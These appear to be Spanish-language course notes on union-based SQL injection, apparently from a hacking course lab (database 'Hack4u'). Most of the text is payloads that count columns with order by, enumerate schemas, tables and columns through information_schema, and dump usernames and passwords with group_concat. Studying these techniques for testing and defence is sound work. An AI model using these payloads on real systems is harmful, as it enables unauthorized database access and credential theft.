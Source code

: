 -- -
Primero empezamos viendo la cantidad de columnas que existen con el uso de order by.
```sql
id=3' order by 100-- -
```

Una vez vimos la cantidad de columnas que existen empezamos con el uso de union select para empezar a ver el contenido almacenado.
```sql
id=3' union select 1
```

Esto nos tendria que mostrar el dato que esta almacenado en la primer columna de la tabla.
Pero si en vez de poner un identificador valido, ponemos unos no valido nos va a empezar a reflejar lo que ponemos, y ahi es cuando podemos  empezar a eejcutar de todo.  
```sql
id=32' union select database();
```

Con este comando le pedimos que nos liste todas las bases de datos existentes.
```sql
id=32' union select schema_name from information_schema.schemata-- -
```

El problema es que a veces los resultados terminan siendo limitados. Para evitar eso es mejor jugar con la funcion group_concat().
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
```

Luego, para enumerar las tablas de cierta base de datos podriamos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```

Luego, tambien para ver las columnas tendriamos q hacer algo muy similiar a lo anterior.
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username) from users-- -
```

Para listar los usuarios podemos ejecutar el siguiente comando.
```sql
id=32' union select group_concat(username,':',password) from users-- -
```

## Aclaraciones
------- 
- Con el order by tenemos que poner siempre la cantidad de columnas con un solo numero. Por ejemplo si la consulta sql es **"select username,password from users where id = '$id'")**, entonces la inyeccion con el order by seria: **id=1' order by 2-- -** ya que la consulta en si le esta pegando a 2 columnas dentro de la tabla.

- Luego, con el union select tendriamos que darle la cantidad de columas separadas por comas junto con un id valido, por ejemplo: **id=1' union select 1,2-- -** . Despues tendriamos que darle un valor erroneo al id para ver cual de los 2 numero separados por la coma nos muestra la pagina, ejemplo **id=-1' union select 1,2-- -**. Una vez vemos cual es el que nos muestra ahi mismo es donde tenemos que empezar a inyectar los comandos. **id=-1' union select database(),2-- -.